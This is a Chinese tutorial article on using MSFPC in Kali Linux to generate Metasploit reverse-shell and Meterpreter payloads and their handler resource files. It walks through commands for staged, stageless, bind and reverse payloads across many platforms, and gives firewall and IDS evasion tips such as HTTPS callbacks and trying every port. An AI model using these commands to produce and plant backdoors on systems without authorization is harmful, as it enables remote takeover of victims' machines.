 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/1QSCg0jXDBw2aveAXLypFw)

注意：本文中所有操作是在 Kali linux 2020.4 中完成。如果使用 Kali linux2020.1 等版本，可能会因为 msfpc 没有 root 权限，在调用 ifconfig 命令时出错，此时将文中的 eth0 替换为本机 IP 地址即可。  

MSFvenom Payload Creator（MSFPC）是一个使用起来十分方便的 payload 生成器，可以根据用户的选择来生成 Metasploit 的各种 payload。有了它，我们就不需要使用的长长的 msfvenom 命令来产生 payload，从而大大的节省了使用者的时间和精力。

你在使用 MSFPC 之前应该先在系统中安装 Metasploit，MSFPC 只是一个单纯的 bash 脚本，这也意味着它需要在 linux 或者 unix 等系统上运行。（微软已经宣布在 Windows10 上支持 bash）。

如果你使用的不是 Kali 的话，需要安装 MSFPC，下载地址为 https://github.com/g0tmi1k/msfpc。

![](https://mmbiz.qpic.cn/mmbiz_png/jb2tm25BPQSwo4JuIMgLLUnB7BGWg1DgWoJECfxjvC6qH3ViaiagxT011RvRmw4l8U1NSKicYPWHeicZ0sI7aSP73A/640?wx_fmt=png)

而 Kali linux 中则已经事先内置了 MSFPC，你只需要在终端中输入 msfpc 就可以启动。

 ![](https://mmbiz.qpic.cn/mmbiz_png/jb2tm25BPQSwo4JuIMgLLUnB7BGWg1DgiaSKVmjicW7J7Gb8lK78JVI1ZjYqS6shftkeFhOd1icBNFg6WjpRve9Qg/640?wx_fmt=png)

MSFPC 中产生 payload 也是通过命令实现的，主要的参数有 TYPE、DOMAIN/IP 等，它们分别对应的含义如下所示：

l TYPE:MSFPC 中支持的 payload 类型如上图所示，可以分别指定为 APK [android], ASP, ASPX, Bash [.sh], Java [.jsp], Linux [.elf], OSX [.macho], Perl [.pl], PHP, Powershell [.ps1], python [.py], Tomcat [.war], Windows [.exe //.dll] 等。这个选项相当于 msfvenom 中的 -f 参数。

l DOMAIN/IP: 这个选项相当于 msfvenom 中的 LHOST 参数。也就是主控端的 IP 地址。

l PORT：这个选项相当于 msfvenom 中的 LPORT 参数。也就是主控端的端口。

l CMD/MSF: 这个选项决定了当 payload 执行后，我们将以何种形式来控制目标系统。比如我们想使用标准的命令行来控制目标时，就可以使用 CMD 选项。如果目标系统是 windows，我们就可以使用如下图所示的 cmd 命令行方式来控制目标。而如果目标是 Linux 操作系统，我们则使用 /bin/bash 的方式来控制目标。

     ![](https://mmbiz.qpic.cn/mmbiz_png/jb2tm25BPQSwo4JuIMgLLUnB7BGWg1DgwMmt35NGwqpMOKwQedshiad37NKEI4S61RRlLzFNUMdDbevXKvMKBGw/640?wx_fmt=png)

下面我们使用 MSFPC 来创建一个 payload，使用的命令如下所示：

$ msfpc cmd windows eth0

成功执行这条命令之后将会产生一个 payload，它将会允许你通过使用 CMD 命令行的方式来控制目标，主控端的 IP 地址通过 eth0 设置成了当前 kali 主机的 IP 地址。

![](https://mmbiz.qpic.cn/mmbiz_png/jb2tm25BPQSwo4JuIMgLLUnB7BGWg1DgwV72JaVSNEXORgiaicA2V6ebLtw5AzIB4Cz0BpE7G5kzxjbU15lhTo4g/640?wx_fmt=png)

从图中可以看出来，这条命令一共产生了两个文件：

l 可执行 payload 文件: windows-shell-staged-reverse-tcp-443.exe

l Rc 文件: windows-shell-staged-reverse-tcp-443-exe.rc

这两个文件的命名很容易理解，它们是根据创建时使用的选项命名的。我们刚刚创建的可执行 payload 文件一旦在目标系统中运行起来，它就会连接到主控端的 443 端口（反向连接），此时我们就可以利用命令提示符 shell 来控制目标了。我们在创建 payload 文件的时候，尽量选择使用 reverse（反向）来代替 bind（正向）。

### **资源文件（****Resource file****，rc）**

按照 Metasploit 官方的解释，资源文件可以帮你自动化的完成一些重复任务。实际上，资源文件就像是批处理脚本，它里面是一组命令。当你在 Metasploit 中加载这个脚本时，这些命令就会按照顺序执行。你可以将一系列 Metasploit 控制命令连接在一起来创建资源文件。

下面我们可以使用 cat 来查看刚刚生成的 rc 文件：

 ![](https://mmbiz.qpic.cn/mmbiz_png/jb2tm25BPQSwo4JuIMgLLUnB7BGWg1DgXcLY6Hwia46bIgBgXPRYEDiaKA4Hiag6nPlBkRtIWETu7Quia6wfhickEYg/640?wx_fmt=png)

这里使用的 payload 选择的参数是 cmd，对应的类型是 windows/shell/reverse_tcp 。

如果你希望获得更方便的控制权限（就像 meterpreter 中那样），这时就可以使用 msf 参数，例如：

Msfpc msf windows eth0

 ![](https://mmbiz.qpic.cn/mmbiz_png/jb2tm25BPQSwo4JuIMgLLUnB7BGWg1DgXSicKZwuImKePS9Hvwm5BiaiaQxUVA1vUJ8UWAfV0jhyT7dHmX0pQ3gCw/640?wx_fmt=png)

在使用 msf 选项之后，我们查看从 MSFPC 生成的资源文件，就会两次在 “set payload” 时的差异：

![](https://mmbiz.qpic.cn/mmbiz_png/jb2tm25BPQSwo4JuIMgLLUnB7BGWg1DgpDLU4HHNQ3wN9Rox8BfqEVKfoCZRwRcicmG4HnQE4Yf3EjvQNJhzhRw/640?wx_fmt=png)

这时的 payload 已经被设置为了 windows/meterpreter/reverse_tcp。写好的资源文件可以使用 msfconsole 来执行，执行的命令如下所示：

**msfconsole -q -r '/home/kali/windows-meterpreter-staged-reverse-tcp-443-exe.rc'**

这里面的 -q 表示使用静默模式（你将看不到 metasploit 的执行过程），-r 表示执行资源文件。不使用参数 -q 则可以看到如下所示的 metasploit 调用过程。

![](https://mmbiz.qpic.cn/mmbiz_png/jb2tm25BPQSwo4JuIMgLLUnB7BGWg1DgjAB9KFNrAicKbzLStgiczftHibP7mkmOZwlUg3DkdaoJib05qaaFOViboLw/640?wx_fmt=png)

我们在这个实例中使用的 payload 是基于 x86 的，但目标系统是给予 x64 体系结构。我们建议使用的 payload 要与操作系统的体系结构相匹配。在 Metasploit 中，我们可以从基于 x86 的进程迁移到基于 x64 的进程上，也可以使用 Metasploit post 模块 post/windows/manage/archmigrate。

l BIND/REVERSE: 目标系统上执行 payload 后与主控端建立的连接类型。

l BIND: 将打开目标系统上的一个端口，我们可以使用主控端连接到该端口。这种方式成功的几率并不大，因为目标系统的防火墙规则往往会阻止我们连接到它的端口。

当我们使用下面的命令：

msfpc bind msf windows eth0

就可以生成一个正向的 payload。

![](https://mmbiz.qpic.cn/mmbiz_png/jb2tm25BPQSwo4JuIMgLLUnB7BGWg1DgNRSAUJ3quHYTiauvL6vWUS9IwGFT1uQ5icicibT6iauJS7YYeicgRaPRGLHQ/640?wx_fmt=png)

我们查看生成的资源文件可以看到使用 windows/meterpreter/bind_tcp 代替了 reverse_tcp,

l REVERSE（反向）: 这个 payload 会在攻击者主控端的计算机上打开一个端口，一旦 payload 在目标设备上执行，就会从目标设备上主动回连主控端。这种连接叫做反向连接，它是绕过入口防火墙的一种非常好的方法，但如果出口（出站）防火墙规则禁止了连接，则可以阻止反向连接。默认情况下，MSFPC 将使用 REVERSE 方式来生成 payload。

l STAGED/STAGELESS: payload 所使用的类型。

l STAGED: 这个参数会将 payload 分成多个阶段发送，这样做的好处是可以有效降低 payload 的大小，默认情况下，MSFPC 生成的就是这种多个阶段发送的 payload

l STAGELESS: 这个参数会产生一个完整的 payload，比多个阶段发送的 payload 更稳定、更可靠，但与分级 payload 相比，这种 payload 太大了。

 msfpc cmd stageless bind windows eth0

我们查看生成的这个命令生成的资源文件。

![](https://mmbiz.qpic.cn/mmbiz_png/jb2tm25BPQSwo4JuIMgLLUnB7BGWg1DgE2doUc6DyjfVOR7Wq6non1ia6sdIP2lbb7B1Os4WewqfoXia7u4wjH9w/640?wx_fmt=png)

可以看到这里面 payload 被设置为 windows/shell_bind_tcp，这是一个 stageless 类型的 payload，它对应着 Metasploit 中的 windows/shell/bind_tcp。

l TCP/HTTP/HTTPS/FIND_PORT: payload 与 handler 通信所使用的方法。

l TCP：这是在目标服务器上执行 payload 后的标准通信方法。这种通信方法可以用于任何类型的 payload 格式，但由于其不加密的性质，很容易被 IDS 检测到并被防火墙和 IPS 阻止。

l HTTP：如果 MSFPC 使用此选项，则 payload 将使用 HTTP 作为通信方法。payload 将在端口 80 上通信。如果目标系统上只有端口 80 打开，则可以使用此选项绕过防火墙。由于其未加密的性质，很容易被 IDS 和 IPS 检测到。

l HTTPS：此选项用于生成将使用 SSL 通信的 payload。如果需要隐秘的进行反向连接时，建议使用此选项。

l FIND_PORT：当无法从公共端口（80、443、53、21）获得反向连接时，使用此选项。如果设置了此选项，MSFPC 生成的 payloa 将尝试所有 1-65535 端口进行通信。

l BATCH Mode: 在批处理模式下，MSFPC 可以使用尽可能多的类型组合生成多个 payload。

![](https://mmbiz.qpic.cn/mmbiz_png/jb2tm25BPQSwo4JuIMgLLUnB7BGWg1DgW5QV5GlicTLjQLRU8NibRaWYfNAqo6O81HG88koNU7LyNhjI9FB2s8hg/640?wx_fmt=png)

MSFPC 会为 Windows 生成所有组合的 payload 以及它们各自的资源文件（.rc）

l LOOP Mode: 这种模式会产生各种类型的多重 payload，MSFPC 还可以生成给定 LHOST 的所有 payload。当我们不了解目标平台操作系统的类型时，这一点非常有用：

msfpc **loop 192.168.****157.170**

下面是该命令所生成的 payload 与资源文件。

![](https://mmbiz.qpic.cn/mmbiz_png/jb2tm25BPQSwo4JuIMgLLUnB7BGWg1Dg1vVDXTvt92ZgYYRpfY9kia1XCwm1uWF7xqE3qdSSYIysWXtiaQN4pPTA/640?wx_fmt=png)

l VERBOSE: 如果要获取有关 MSFPC 在生成 payload 时使用的值的更多信息，可以使用此选项。

 msfpc cmd stageless bind windows eth0 verbose

![](https://mmbiz.qpic.cn/mmbiz_png/jb2tm25BPQSwo4JuIMgLLUnB7BGWg1DgbiaqTwISugBF2icicwasdOOFonCicym6BNOe7fE0WEOC1jLfuHLkGXpiaJg/640?wx_fmt=png)

扫描下方二维码加入星球学习

加入后邀请进入内部微信群，内部微信群永久有效！

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9Y7Ac6gb6JZVymJwS3gu8cniaUZzJeYAibE3v2VnNlhyC6fSTgtW94Pz51p0TSUl3AtZw0L1bDaAKw/640?wx_fmt=png) ![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9Y7Ac6gb6JZVymJwS3gu8cT2rJYbRzsO9Q3J9rSltBVzts0O7USfFR8iaFOBwKdibX3hZiadoLRJIibA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicBVC2S4ujJibsVHZ8Us607qBMpNj25fCmz9hP5T1yA6cjibXXCOibibSwQmeIebKa74v6MXUgNNuia7Uw/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9Y7Ac6gb6JZVymJwS3gu8cRey7icGjpsvppvqqhcYo6RXAqJcUwZy3EfeNOkMRS37m0r44MWYIYmg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicjovru6mibAFRpVqK7ApHAwiaEGVqXtvB1YQahibp6eTIiaiap2SZPer1QXsKbNUNbnRbiaR4djJibmXAfQ/640?wx_fmt=jpeg) ![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicJ39cBtzvcja8GibNMw6y6Amq7es7u8A8UcVds7Mpib8Tzu753K7IZ1WdZ66fDianO2evbG0lEAlJkg/640?wx_fmt=png)  

目前 40000 + 人已关注加入我们

![](https://mmbiz.qpic.cn/mmbiz_gif/XWPpvP3nWa9FwrfJTzPRIyROZ2xwWyk6xuUY59uvYPCLokCc6iarKrkOWlEibeRI9DpFmlyNqA2OEuQhyaeYXzrw/640?wx_fmt=gif)